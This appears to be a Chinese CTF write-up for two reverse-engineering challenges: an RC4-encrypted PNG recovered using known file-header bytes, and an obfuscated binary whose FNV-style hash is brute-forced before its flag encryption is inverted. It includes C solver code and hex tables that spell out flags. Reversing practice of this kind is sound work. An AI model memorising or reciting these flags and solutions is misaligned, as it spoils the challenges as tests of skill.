0x4B, 0x3D, 0x75, 0x74, 0x37, 0x3D, 0x34, 0x38, 0x53, 0x36, 0x76, 0x6A, 0x6A, 0x56, 0x57, 0x4D, 0x51, 0x6E, 0x44, 0x2B, 0x53, 0x63, 0x37, 0x56
0x4A, 0x45, 0x55, 0x34, 0x6C, 0x4D, 0x56, 0x66, 0x3D, 0x64, 0x5A, 0x3D, 0x47, 0x48, 0x48, 0x6A, 0x49, 0x61, 0x48, 0x4B, 0x33, 0x6E, 0x52, 0x62

7 -> 3 1 3
0x62, 0x70, 0x47, 0x4A, 0x77, 0x6C, 0x37, 0x6B, 0x77, 0x47, 0x63, 0x3D, 0x54, 0x78, 0x49, 0x3D, 0x4E, 0x2B, 0x36, 0x4C, 0x45, 0x6E, 0x6E, 0x66
0x4B, 0x3D, 0x75, 0x74, 0x37, 0x3D, 0x34, 0x38, 0x53, 0x36, 0x76, 0x6A, 0x6A, 0x56, 0x57, 0x4D, 0x51, 0x6E, 0x44, 0x2B, 0x53, 0x63, 0x37, 0x56
0x4A, 0x34, 0x56, 0x64, 0x47, 0x48, 0x49, 0x48, 0x33, 0x52, 0x45, 0x6C, 0x66, 0x5A, 0x48, 0x6A, 0x61, 0x4B, 0x6E, 0x62, 0x55, 0x4D, 0x3D, 0x3D

8 -> 2 3 4
0x62, 0x70, 0x47, 0x4A, 0x77, 0x6C, 0x37, 0x6B, 0x77, 0x47, 0x63, 0x3D, 0x54, 0x78, 0x49, 0x3D, 0x4E, 0x2B, 0x36, 0x4C, 0x45, 0x6E, 0x6E, 0x66
0x34, 0x38, 0x53, 0x36, 0x76, 0x6A, 0x6A, 0x56, 0x57, 0x4D, 0x51, 0x6E, 0x44, 0x2B, 0x53, 0x63, 0x37, 0x56, 0x4B, 0x3D, 0x75, 0x74, 0x37, 0x3D
0x4A, 0x34, 0x56, 0x64, 0x47, 0x48, 0x49, 0x48, 0x33, 0x52, 0x45, 0x6C, 0x66, 0x5A, 0x48, 0x6A, 0x61, 0x4B, 0x6E, 0x62, 0x55, 0x4D, 0x3D, 0x3D

9 -> 1 2 1
0x62, 0x6C, 0x42, 0x48, 0x69, 0x6A, 0x31, 0x63, 0x6E, 0x48, 0x7A, 0x3D, 0x44, 0x67, 0x44, 0x3D, 0x4B, 0x2B, 0x31, 0x43, 0x52, 0x62, 0x6B, 0x77
0x34, 0x38, 0x53, 0x36, 0x76, 0x6A, 0x6A, 0x56, 0x57, 0x4D, 0x51, 0x6E, 0x44, 0x2B, 0x53, 0x63, 0x37, 0x56, 0x4B, 0x3D, 0x75, 0x74, 0x37, 0x3D
0x4A, 0x34, 0x56, 0x64, 0x47, 0x48, 0x49, 0x48, 0x33, 0x52, 0x45, 0x6C, 0x66, 0x5A, 0x48, 0x6A, 0x61, 0x4B, 0x6E, 0x62, 0x55, 0x4D, 0x3D, 0x3D

10  -> 3 1 6
0x62, 0x6C, 0x42, 0x48, 0x69, 0x6A, 0x31, 0x63, 0x6E, 0x48, 0x7A, 0x3D, 0x44, 0x67, 0x44, 0x3D, 0x4B, 0x2B, 0x31, 0x43, 0x52, 0x62, 0x6B, 0x77
0x34, 0x38, 0x53, 0x36, 0x76, 0x6A, 0x6A, 0x56, 0x57, 0x4D, 0x51, 0x6E, 0x44, 0x2B, 0x53, 0x63, 0x37, 0x56, 0x4B, 0x3D, 0x75, 0x74, 0x37, 0x3D
0x72, 0x46, 0x30, 0x36, 0x63, 0x72, 0x2F, 0x4B, 0x63, 0x50, 0x41, 0x46, 0x6E, 0x4E, 0x38, 0x33
11 -> 2 3 3
0x62, 0x6C, 0x42, 0x48, 0x69, 0x6A, 0x31, 0x63, 0x6E, 0x48, 0x7A, 0x3D, 0x44, 0x67, 0x44, 0x3D, 0x4B, 0x2B, 0x31, 0x43, 0x52, 0x62, 0x6B, 0x77
0x34, 0x76, 0x57, 0x44, 0x37, 0x75, 0x38, 0x6A, 0x4D, 0x2B, 0x56, 0x74, 0x53, 0x6A, 0x51, 0x53, 0x4B, 0x37, 0x36, 0x56, 0x6E, 0x63, 0x3D, 0x3D
0x72, 0x46, 0x30, 0x36, 0x63, 0x72, 0x2F, 0x4B, 0x63, 0x50, 0x41, 0x46, 0x6E, 0x4E, 0x38, 0x33

12 -> 1 2 4
0x69, 0x6A, 0x31, 0x63, 0x6E, 0x48, 0x7A, 0x3D, 0x44, 0x67, 0x44, 0x3D, 0x4B, 0x2B, 0x31, 0x43, 0x52, 0x62, 0x6B, 0x77, 0x62, 0x6C, 0x42, 0x48
0x34, 0x76, 0x57, 0x44, 0x37, 0x75, 0x38, 0x6A, 0x4D, 0x2B, 0x56, 0x74, 0x53, 0x6A, 0x51, 0x53, 0x4B, 0x37, 0x36, 0x56, 0x6E, 0x63, 0x3D, 0x3D
0x72, 0x46, 0x30, 0x36, 0x63, 0x72, 0x2F, 0x4B, 0x63, 0x50, 0x41, 0x46, 0x6E, 0x4E, 0x38, 0x33

13 -> 3 1 5
0x69, 0x6A, 0x31, 0x63, 0x6E, 0x48, 0x7A, 0x3D, 0x44, 0x67, 0x44, 0x3D, 0x4B, 0x2B, 0x31, 0x43, 0x52, 0x62, 0x6B, 0x77, 0x62, 0x6C, 0x42, 0x48
0x34, 0x76, 0x57, 0x44, 0x37, 0x75, 0x38, 0x6A, 0x4D, 0x2B, 0x56, 0x74, 0x53, 0x6A, 0x51, 0x53, 0x4B, 0x37, 0x36, 0x56, 0x6E, 0x63, 0x3D, 0x3D
0x5F, 0x31, 0x64, 0x5F, 0x53, 0x5F, 0x71, 0x43, 0x64, 0x4E, 0x69, 0x7D

14 -> 2 3 6
0x69, 0x6A, 0x31, 0x63, 0x6E, 0x48, 0x7A, 0x3D, 0x44, 0x67, 0x44, 0x3D, 0x4B, 0x2B, 0x31, 0x43, 0x52, 0x62, 0x6B, 0x77, 0x62, 0x6C, 0x42, 0x48
0x69, 0x64, 0x37, 0x34, 0x71, 0x68, 0x58, 0x65, 0x71, 0x2B, 0x58, 0x50, 0x6C, 0x6C, 0x72, 0x4C
0x5F, 0x31, 0x64, 0x5F, 0x53, 0x5F, 0x71, 0x43, 0x64, 0x4E, 0x69, 0x7D

15 -> 1 2 3
0x69, 0x6E, 0x44, 0x4B, 0x43, 0x6B, 0x6C, 0x6A, 0x48, 0x67, 0x2B, 0x52, 0x77, 0x42, 0x31, 0x7A, 0x44, 0x31, 0x62, 0x62, 0x48, 0x63, 0x3D, 0x3D
0x69, 0x64, 0x37, 0x34, 0x71, 0x68, 0x58, 0x65, 0x71, 0x2B, 0x58, 0x50, 0x6C, 0x6C, 0x72, 0x4C
0x5F, 0x31, 0x64, 0x5F, 0x53, 0x5F, 0x71, 0x43, 0x64, 0x4E, 0x69, 0x7D

16 -> 3 1 1
0x69, 0x6E, 0x44, 0x4B, 0x43, 0x6B, 0x6C, 0x6A, 0x48, 0x67, 0x2B, 0x52, 0x77, 0x42, 0x31, 0x7A, 0x44, 0x31, 0x62, 0x62, 0x48, 0x63, 0x3D, 0x3D
0x69, 0x64, 0x37, 0x34, 0x71, 0x68, 0x58, 0x65, 0x71, 0x2B, 0x58, 0x50, 0x6C, 0x6C, 0x72, 0x4C
0x5F, 0x31, 0x6E, 0x5F, 0x44, 0x5F, 0x6D, 0x41, 0x6A, 0x4F, 0x72, 0x7D

17 -> 2 3 5
0x69, 0x6E, 0x44, 0x4B, 0x43, 0x6B, 0x6C, 0x6A, 0x48, 0x67, 0x2B, 0x52, 0x77, 0x42, 0x31, 0x7A, 0x44, 0x31, 0x62, 0x62, 0x48, 0x63, 0x3D, 0x3D
0x43, 0x79, 0x6B, 0x63, 0x27, 0x6A, 0x5F, 0x50, 0x40, 0x6F, 0x34, 0x69
0x5F, 0x31, 0x6E, 0x5F, 0x44, 0x5F, 0x6D, 0x41, 0x6A, 0x4F, 0x72, 0x7D

18 -> 1 2 6
0x65, 0x4A, 0x48, 0x36, 0x6B, 0x4F, 0x4C, 0x70, 0x6B, 0x66, 0x52, 0x74, 0x66, 0x4D, 0x69, 0x41
0x43, 0x79, 0x6B, 0x63, 0x27, 0x6A, 0x5F, 0x50, 0x40, 0x6F, 0x34, 0x69
0x5F, 0x31, 0x6E, 0x5F, 0x44, 0x5F, 0x6D, 0x41, 0x6A, 0x4F, 0x72, 0x7D

19 -> 2 3 1
0x65, 0x4A, 0x48, 0x36, 0x6B, 0x4F, 0x4C, 0x70, 0x6B, 0x66, 0x52, 0x74, 0x66, 0x4D, 0x69, 0x41
0x4C, 0x62, 0x65, 0x6C, 0x27, 0x73, 0x5F, 0x43, 0x40, 0x6E, 0x30, 0x6E
0x5F, 0x31, 0x6E, 0x5F, 0x44, 0x5F, 0x6D, 0x41, 0x6A, 0x4F, 0x72, 0x7D

20 -> 1 2  5
0x4C, 0x4D, 0x50, 0x47, 0x47, 0x51, 0x7B, 0x45, 0x38, 0x69, 0x64, 0x33
0x4C, 0x62, 0x65, 0x6C, 0x27, 0x73, 0x5F, 0x43, 0x40, 0x6E, 0x30, 0x6E
0x5F, 0x31, 0x6E, 0x5F, 0x44, 0x5F, 0x6D, 0x41, 0x6A, 0x4F, 0x72, 0x7D


21 -> 1 2 1
0x4E, 0x53, 0x53, 0x43, 0x54, 0x46, 0x7B, 0x50, 0x34, 0x63, 0x68, 0x33
0x4C, 0x62, 0x65, 0x6C, 0x27, 0x73, 0x5F, 0x43, 0x40, 0x6E, 0x30, 0x6E
0x5F, 0x31, 0x6E, 0x5F, 0x44, 0x5F, 0x6D, 0x41, 0x6A, 0x4F, 0x72, 0x7D
```

## 腐蚀

​`rrrrrust太好玩了（雾`​

看到这题给了 pdb 我就知道不简单（

​​

根据字符串定位到关键函数

​​

最终确定加密函数

​​

虽然是依托，但是还是可以看出点端倪，比如哪个 i+=1，其实就是个 rc4

那么 key 是哪里来的呢？？

​​

对这个 input 进行动调发现，其实 key 来自输入文件的前 8 和最后 8 字节

png 文件的前 8 和后 8 其实是确定的

再动调发现，还对解密后的文件进行了逆序，所以读取也应该逆向进行

```c
#include<stdio.h>
#include<stdlib.h>


void rc4_init(unsigned char*s, unsigned char*key, unsigned long Len)
{
    int i = 0, j = 0;
    unsigned char k[256] = { 0 };
    unsigned char tmp = 0;
    for (i = 0; i<256; i++)
    {
        s[i] = i;
        k[i] = key[i%Len];
    }
    for (i = 0; i<256; i++)
    {
        j = (j + s[i] + k[i]) % 256;
        tmp = s[i];
        s[i] = s[j];//交换s[i]和s[j]
        s[j] = tmp;
    }
}

/*加解密*/
void rc4_crypt(unsigned char*s, unsigned char *enc, unsigned long Len)
{
    int i = 0, j = 0, t = 0;
    unsigned long k = 0;
    unsigned char tmp;

    for (k = 0; k < Len; k++)
    {
        i = (i + 1) % 256;
        j = (j + s[i]) % 256;
        tmp = s[i];
        s[i] = s[j];//交换s[x]和s[y]
        s[j] = tmp;
        t = (s[i] + s[j]) % 256;
        enc[k] ^= s[t] ^ 0x1f;

    }
}


int main() {
    unsigned char key[16] = {0x60,0x82,0xAE,0x42,0x4E,0x44,0x49,0x45,0x1A,0xA,0xD,0xA,0x4E,0x47,0x89,0x50};
    unsigned char sbox[256] = {0};
    unsigned char *enc;
    enc = (unsigned char *)malloc(50838);
    int Len = 50838;
    FILE *file = fopen("D:\\CTF\\GH\\Canon\\enc1", "rb");
    for (int k = Len-1; k >= 0; k--)
    {
        fseek(file,k,SEEK_SET);
        enc[Len - k - 1] = (unsigned char )fgetc(file);
    }
    FILE *fd = fopen("D:\\CTF\\GH\\Canon\\1.png","wb");
    rc4_init(sbox,key,16);
    rc4_crypt(sbox, enc, Len);
    fwrite(enc,Len,1,fd);
    free(enc);
}
```

## ezObfus

​`到处都是花`​

​​

这个 pwd 其实只是加了个特征，没用

几乎所有有用的函数都被加花了，

​​

花的种类不太多，可以手动也可以 idapython

修好后进入 main

​​

加了很多混淆，不过仔细分析可以看懂

​​

这里是实现了一个变种的 fnv hash 算法

​​

这里检测了算出来的 hash，直接爆破

```c
#include<stdio.h>
#include<stdint.h>

int main() {
    uint32_t hash = 0x45E938F6;
    unsigned char key[4] = {0};
    uint32_t raw = 0x811C9DC5;
    uint32_t raw1 = 0;
    for (int i = 0; i < 255; i++) {
        for (int j = 0; j < 255; j++) {
            for (int k = 0; k < 255; k++) {
                for (int l = 0; l < 255; l++) {
                    key[0] = i;
                    key[1] = j;
                    key[2] = k;
                    key[3] = l;
                    raw1 = raw;
                    for(int p = 0; p < 4; p++) {
                        if(key[p]%2) {
                            raw1 ^= key[p];
                        } else {
                            raw1 *= 0x1000193;
                        }
                        raw1 = (raw1 >> 25) | (raw1 << 7);
                        raw1 -= key[p];
                    }
                    if(raw1 == hash) {
                        printf("%d %d %d %d",key[0],key[1],key[2],key[3]);
                        printf("0x%X",raw1);
                    }

                }

            }
        }
    }

}
```

​​

然后来到加密 flag 的地方

​​

enc 函数实现了简单的加密算法，直接逆向即可

```c
#include<stdio.h>
#include<stdint.h>


int main() {
    uint32_t key = 2358310779;
    uint32_t hash = 0x45E938F6;
    unsigned char data[] = {0x54,0x55,0x79,0x9E,0xA8,0xE1,0x1C,0xDA,0x4,0x1D,0xC1,0x6E,0x80,0x82,0xD,0x8A,0x4C,0x65,0xE1,0x46,0x71,0x31,0xED,0xD2,0x14,0xC5,0x39,0xB5,0x49,0xE2,0x4,0xA9};
    int len = 32;
    char tmp;

    for(int i = 0; i < len; i++) {
        if(data[i]!=0) {
            data[i] -= i;
        }
        data[i] = (data[i]<<5) | (data[i]>>3);
        tmp = i ^ (key >> ((3-i%4)*8));
        data[i] ^= tmp;
    }

    for(int i = 0; i < len; i++) {
        data[i] ^= 0x48;
        printf("%c",data[i]);
    }


}
```
